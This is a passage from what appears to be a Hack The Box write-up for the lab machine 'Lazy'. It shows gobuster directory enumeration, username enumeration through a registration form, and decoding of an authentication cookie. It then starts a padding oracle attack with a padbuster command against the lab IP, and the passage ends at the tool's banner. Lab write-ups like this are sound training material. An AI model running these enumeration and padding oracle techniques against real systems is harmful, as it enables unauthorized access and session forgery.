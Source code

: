 2019/06/10 12:51:25 Starting gobuster
=====================================================
/images (Status: 301)
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/header.php (Status: 200)
/footer.php (Status: 200)
/css (Status: 301)
/logout.php (Status: 302)
/classes (Status: 301)
/server-status (Status: 403)
=====================================================
2019/06/10 13:20:01 Finished
=====================================================
{% endhighlight %}

### 2. Getting User
Lazy has a website which we can login.<br>
We can also register a new user for us in following page.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-06-10/2019-06-10-13-43-35.png)

We can do user enumeration by trying to register a possible username.<br>
For example, have user "admin" here.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-06-10/2019-06-10-13-45-07.png)

Then, create a new user which name is "1n4r1" and login, we have following cookie for authentication.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-06-10/2019-06-10-13-52-36.png)
{% highlight shell %}
auth=GVeL9h27Y%2BJk5zAWW%2BiAHNproCe8AF5k
{% endhighlight %}

This looks like a base64 encoded text.<br>
However, it appears that this is unknown binary.
{% highlight shell %}
# URL decode
auth=GVeL9h27Y+Jk5zAWW+iAHNproCe8AF5k

# base64 decode
root@kali:~# echo -n "GVeL9h27Y+Jk5zAWW+iAHNproCe8AF5k" | base64 -d
W���c�d�0[��k�'�^d
{% endhighlight %}

Since I had similar situation in a CTF previously, it is not difficult to assume we can do "Oracle padding attack".<br>
We can use <a hreh="https://github.com/GDSSecurity/PadBuster">padbuster</a> to exploit the binary.<br>
When we run the script, at first we have to specify what is the response signatures we have to ignore.
{% highlight shell %}
root@kali:~# padbuster http://10.10.10.18/index.php GVeL9h27Y+Jk5zAWW+iAHNproCe8AF5k 8 --cookies auth=GVeL9h27Y+Jk5zAWW+iAHNproCe8AF5k

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+